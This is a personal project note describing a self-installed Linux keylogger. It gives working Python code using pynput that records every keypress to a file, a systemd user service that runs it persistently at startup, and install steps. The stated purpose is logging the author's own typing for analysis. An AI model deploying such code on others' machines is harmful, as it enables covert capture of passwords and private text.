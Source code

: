 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
title: DIY Keylogger
---
```

## Description

The goal of this project is to install a key logger on myself so I can later do analysis on the data I generate. **Beware** running this will log your passwords to a file in user space unless you remember to turn it off and on.

## Install Instructions

``` bash
python3 -m pip install pynput 
nano keylogger.py
# Copy Contents from below into file
sudo cp keylogger.py /opt
mkdir -p ~/.config/systemd/user
nano keylogger.service
# Copy Contents from below into file
envsubst < keylogger.service > temp.txt && mv temp.txt keylogger.service
cat keylogger.service
cp keylogger.service ~/.config/systemd/user/keylogger.service

# Start Keylogger
systemctl --user start keylogger.service

# Enable keylogger on startup
systemctl --user enable keylogger.service

# Check if keylogger is running
systemctl --user status keylogger.service

# Stop keylogger
systemctl --user stop keylogger.service

# To update keylogger.py script
systemctl --user daemon-reload
systemctl --user restart keylogger.service
systemctl --user status keylogger.service
# Check keylogger logs
cd ~/keylogger
ls
cat key*
```

## keylogger.py

``` python    
#!/bin/python3
# keylogger.py
import importlib

def check_and_install_dependency(package):
    try:
        importlib.import_module(package)
        print(f"{package} is already installed.")
    except ImportError:
        print(f"{package} is not installed. Installing...")
        try:
            import pip
            pip.main(['install', package])
            print(f"{package} has been successfully installed.")
        except ImportError:
            print("pip is not installed. Please install pip and try again.")
            return

    print(f"Loading {package}...")
    importlib.import_module(package)
    print(f"{package} has been loaded successfully.")
check_and_install_dependency('pynput')

from pynput import keyboard
import logging
import os
import socket
import sys

log_dir = "/home/paul/Documents/Software/keylogger"
if len(sys.argv) > 1:
    log_dir = sys.argv[1]
print(f"{log_dir}/keyLog-{str(socket.gethostname())}.txt")
try:
	os.makedirs(log_dir)
except:  
    print(f'PATH {str(log_dir)} already exists')
logging.basicConfig(filename = f"{log_dir}/keyLog-{str(socket.gethostname())}.txt", 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
    
```

## keylogger.service

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
# Requires=display-manager.service
# After=display-manager.service
# Environment='DISPLAY=:0'

[Service]
ExecStart=/usr/bin/python3 /opt/keylogger.py /home/paul/keylogger

[Install]
WantedBy=multi-user.target

```


## Troubleshooting

``` bash
sudo /usr/bin/python -m ensurepip --upgrade
sudo /usr/bin/python -m pip install six
sudo /usr/bin/python -m pip install python-xlib
sudo /usr/bin/python -m pip install six

```
## Links

* [Keylogger Binding](/23b9004c-6bb4-4bc8-a79a-d27e2fb4f35c)
* [keylogger research](/keylogger research)

## Sources

* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [Logging in Python – Real Python](https://realpython.com/python-logging/)
* [ChatGPT - A ShareGPT conversation](https://sharegpt.com/c/al2TNIJ)

#### Backlinks

* [My Projects](/e76c8ac9-69f3-477f-8015-556e83738432)
* [Arch Linux](/3562b69e-e1de-43cd-9d89-b5f3ed5ba452)
* [Keylogger Binding](/23b9004c-6bb4-4bc8-a79a-d27e2fb4f35c)